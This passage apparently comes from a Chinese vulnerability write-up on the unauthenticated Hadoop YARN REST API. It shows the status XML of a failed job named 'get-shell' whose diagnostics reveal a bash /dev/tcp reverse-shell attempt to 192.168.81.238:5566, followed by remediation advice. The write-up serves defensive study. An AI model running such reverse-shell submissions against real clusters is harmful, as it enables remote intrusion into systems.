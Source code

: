 ```
<user>dr.who</user>
<name>get-shell</name>
<queue>default</queue>
<state>FAILED</state>
<finalStatus>FAILED</finalStatus>
<progress>0.0</progress>
<trackingUI>History</trackingUI>
<trackingUrl>http://1aed46d5d18f:8088/cluster/app/application_1688957760252_0016</trackingUrl>
<diagnostics>Application application_1688957760252_0016 failed 2 times due to AM Container for appattempt_1688957760252_0016_000002 exited with exitCode: 1 Failing this attempt.Diagnostics: Exception from container-launch. Container id: container_1688957760252_0016_02_000001 Exit code: 1 Exception message: /bin/bash: connect: Connection refused /bin/bash: /dev/tcp/192.168.81.238/5566: Connection refused Stack trace: ExitCodeException exitCode=1: /bin/bash: connect: Connection refused /bin/bash: /dev/tcp/192.168.81.238/5566: Connection refused at org.apache.hadoop.util.Shell.runCommand(Shell.java:972) at org.apache.hadoop.util.Shell.run(Shell.java:869) at org.apache.hadoop.util.Shell$ShellCommandExecutor.execute(Shell.java:1170) at org.apache.hadoop.yarn.server.nodemanager.DefaultContainerExecutor.launchContainer(DefaultContainerExecutor.java:236) at org.apache.hadoop.yarn.server.nodemanager.containermanager.launcher.ContainerLaunch.call(ContainerLaunch.java:305) at org.apache.hadoop.yarn.server.nodemanager.containermanager.launcher.ContainerLaunch.call(ContainerLaunch.java:84) at java.util.concurrent.FutureTask.run(FutureTask.java:266) at java.util.concurrent.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1142) at java.util.concurrent.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:617) at java.lang.Thread.run(Thread.java:748) Container exited with a non-zero exit code 1 For more detailed output, check the application tracking page: http://1aed46d5d18f:8088/cluster/app/application_1688957760252_0016 Then click on links to logs of each attempt. . Failing the application.</diagnostics>
<clusterId>1688957760252</clusterId>
<applicationType>YARN</applicationType>
<applicationTags/>
<priority>-1</priority>
<startedTime>1688968516137</startedTime>
<finishedTime>1688969160731</finishedTime>
<elapsedTime>644594</elapsedTime>
<amContainerLogs>http://455c7d01c293:8042/node/containerlogs/container_1688957760252_0016_02_000001/dr.who</amContainerLogs>
<amHostHttpAddress>455c7d01c293:8042</amHostHttpAddress>
<allocatedMB>-1</allocatedMB>
<allocatedVCores>-1</allocatedVCores>
<runningContainers>-1</runningContainers>
<memorySeconds>658947</memorySeconds>
<vcoreSeconds>643</vcoreSeconds>
<queueUsagePercentage>0.0</queueUsagePercentage>
<clusterUsagePercentage>0.0</clusterUsagePercentage>
<preemptedResourceMB>0</preemptedResourceMB>
<preemptedResourceVCores>0</preemptedResourceVCores>
<numNonAMContainerPreempted>0</numNonAMContainerPreempted>
<numAMContainerPreempted>0</numAMContainerPreempted>
<preemptedMemorySeconds>0</preemptedMemorySeconds>
<preemptedVcoreSeconds>0</preemptedVcoreSeconds>
<logAggregationStatus>SUCCEEDED</logAggregationStatus>
<unmanagedApplication>false</unmanagedApplication>
<appNodeLabelExpression/>
<amNodeLabelExpression/>
</app>
```

### 修复
- 如无必要, 关闭`Hadoop Web`管理页面
- 开启身份验证
- 设置"安全组"访问控制策略, 将`Hadoop`默认开放的多个端口对公网全部禁止, 或设置可信任的IP地址访问相关端口和`WebAPI`接口